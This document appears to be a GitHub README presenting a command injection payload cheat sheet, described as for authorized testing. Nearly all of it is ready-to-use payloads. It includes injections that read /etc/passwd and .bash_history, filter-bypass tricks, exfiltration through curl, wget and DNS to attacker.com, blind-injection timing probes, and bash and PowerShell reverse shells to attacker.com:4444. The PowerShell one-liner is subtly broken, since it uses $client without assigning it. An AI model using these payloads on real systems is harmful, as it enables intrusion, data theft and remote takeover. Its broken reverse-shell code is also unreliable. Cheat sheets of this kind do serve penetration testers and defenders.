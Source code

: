 # Command Injection Payload Cheat Sheet

This cheat sheet contains a collection of command injection payloads used to test for and exploit command injection vulnerabilities. **Note:** These payloads are strictly for educational and authorized testing purposes only.

---

## Contents

- [Basic Command Injection Payloads](#basic-command-injection-payloads)
- [Chained Commands](#chained-commands)
- [Bypassing Filters](#bypassing-filters)
- [Environment Variable Injection](#environment-variable-injection)
- [Exfiltrating Data](#exfiltrating-data)
- [Blind Command Injection](#blind-command-injection)
- [Advanced Command Injection Techniques](#advanced-command-injection-techniques)

---

## Basic Command Injection Payloads

Basic payloads execute arbitrary commands when input is unsafely passed to a shell interpreter.

```bash
; cat /etc/passwd          # Linux
; dir                       # Windows
| cat /etc/passwd
& dir
```

---

## Chained Commands

Chaining commands allows the attacker to execute multiple commands within a single request.

```bash
# Using Semicolon
; whoami; uname -a; id

# Using AND
&& whoami && uname -a && id

# Using OR (Only executes next command if the previous one fails)
|| whoami || id

# Using Pipe (|)
| whoami
| ls -la
```

---

## Bypassing Filters

Command injection filters often look for specific characters or keywords. Bypass techniques can sometimes evade simple input sanitization.

### Whitespace Bypass

Inserting different whitespace characters (like `${IFS}`) can bypass strict space-based filters.

```bash
# Using Internal Field Separator (IFS)
cat${IFS}/etc/passwd
```

### Hexadecimal/Octal Encoding

Using encoded characters can bypass filters looking for specific keywords or characters.

```bash
# Using Hex Encoding for / and space
cat%20/etc/passwd
```

### Command Substitution

Using backticks (`` ` ``) or `$()` for command substitution.

```bash
`whoami`
$(whoami)
```

---

## Environment Variable Injection

Environment variables can be used in payloads to leverage system-specific values.

```bash
# Injecting PATH Variable
echo $PATH
echo ${PATH}

# Using Random Environment Variables
echo $HOME
cat $HOME/.bash_history
```

---

## Exfiltrating Data

Command injection vulnerabilities can be used to retrieve system data and exfiltrate it to an external server.

### File Exfiltration with `curl` or `wget`

```bash
# Linux
curl http://attacker.com/$(cat /etc/passwd)
wget http://attacker.com --post-file=/etc/passwd
```

### DNS Exfiltration

This payload uses a DNS request to send data to a listening DNS server on an attacker-controlled domain.

```bash
# Extracting data using DNS query
nslookup $(whoami).attacker.com
```

---

## Blind Command Injection

Blind command injection is used when command output isn’t visible. These techniques often rely on observable side effects, like response delays.

### Delays with `sleep` or `ping`

```bash
# Linux (Sleep)
; sleep 10

# Windows (Ping to create delay)
& ping -n 10 127.0.0.1
```

### Network Interactions

Sending requests that reach an external server can help confirm command injection vulnerabilities without visible output.

```bash
curl http://attacker.com/$(whoami)
ping attacker.com
```

---

## Advanced Command Injection Techniques

### File Write Injection

Injecting data into files can sometimes achieve persistent access or set up additional backdoors.

```bash
# Writing a string to a file
echo "Injected content" > /tmp/injected.txt
```

### Reverse Shell Payloads

Reverse shells allow remote command execution by connecting back to an attacker’s machine.

```bash
# Bash Reverse Shell (Linux)
bash -i >& /dev/tcp/attacker.com/4444 0>&1

# PowerShell Reverse Shell (Windows)
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "New-Object System.Net.Sockets.TCPClient('attacker.com',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

> **Note**: Reverse shell payloads should only be used in controlled, authorized environments as they can lead to full system compromise.

---

## Additional Notes

- **Character Encoding**: Some systems may allow encoding characters (e.g., base64, hex) to bypass input restrictions.
- **Command Length Limits**: Check if the application has character limits that might truncate payloads.
- **Environment-Specific Commands**: Some payloads are OS-specific, so ensure compatibility with the target system.

---

### License

This cheat sheet is open-sourced and can be used for ethical testing and research. Unauthorized or illegal testing is prohibited.

---
